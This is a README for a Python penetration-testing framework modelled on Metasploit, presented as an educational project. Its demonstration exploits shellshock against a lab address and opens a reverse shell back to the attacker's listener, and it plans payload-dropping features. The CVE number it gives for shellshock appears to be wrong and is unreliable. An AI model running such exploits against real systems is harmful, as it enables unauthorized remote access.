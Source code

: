 # pysploit

This is a metasploit-like framework for system exploitation and penetration 
testing written in python. It is a work in progress and is an educational 
exercise for me so I learn how things actually work and stop being such a skid.

### Example of exploitation of the shellshock vulnerability (CVE-2014-6071)

```
$ pysploit.py
[+]	New session created
$ pysploit> exploit load shellshock
$ exploit (shellshock)> exploit options
[~]	Exploit options	[~]
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
victim_ip               |		None
victim_port             |		None
attacker_ip             |		None
attacker_port           |		None
cgi_path                |		None
payload                 |		None
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
$ exploit (shellshock)> exploit set victim_ip 192.168.56.101
$ exploit (shellshock)> exploit set victim_port 80
$ exploit (shellshock)> exploit set attacker_ip 192.168.56.102
$ exploit (shellshock)> exploit set attacker_port 4444
$ exploit (shellshock)> exploit set cgi_path /cgi-bin/status
$ exploit (shellshock)> exploit set payload None
$ exploit (shellshock)> exploit options
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
victim_ip               |		192.168.56.101
victim_port             |		80
attacker_ip             |		192.168.56.102
attacker_port           |		4444
cgi_path                |		/cgi-bin/status
payload                 |		None
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
$ exploit (shellshock)> exploit run
[*]	Checking for vulnerability
	[*]	Injecting with test nonce 13b64e57dbff4e63b412d40f02ecc933
	[+]	Received vulnerable output from target!
	[+]	Target 192.168.56.101 is vulnerable to shellshock
[*]	Running exploit for shellshock on 192.168.56.101
	[*]	Shell injection sent (reverse catch at 192.168.56.102:4444)
	[+] Shell caught by listener!
[+]	Exploitation completed!
$ exploit (shellshock)>
```

And on our listening machine...

![We have a catch](https://github.com/spencerdodd/pysploit/blob/master/imgs/example-catch.png "catch img")

As easy as that!

### =-=-=-= To Do =-=-=-=

* Build network module for the framework to handle file-dropping, multi-stage payload uploading, shell-hand
ling, etc.

* Create some payloads / payload execution frameworks (based off of network module interactions)

* Potentially migrate exploitation into Twisted protocols that are created by the exploits (?)